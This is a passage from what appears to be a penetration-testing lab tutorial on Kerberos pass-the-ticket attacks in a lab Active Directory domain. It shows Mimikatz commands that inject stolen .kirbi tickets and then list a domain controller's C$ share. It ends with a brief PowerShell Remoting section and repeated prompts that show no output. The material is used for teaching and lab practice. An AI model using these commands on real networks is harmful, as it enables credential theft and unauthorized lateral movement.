 ```batch
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

* File: 'C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi': OK
mimikatz # exit
Bye!
```

Which grants us access to whatever the target user has access to:

```batch
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

### Method 5: PS Remoting(5985/5986)

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

### 5.1 Using Mimikatz (Local Admin required)

```batch
C:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname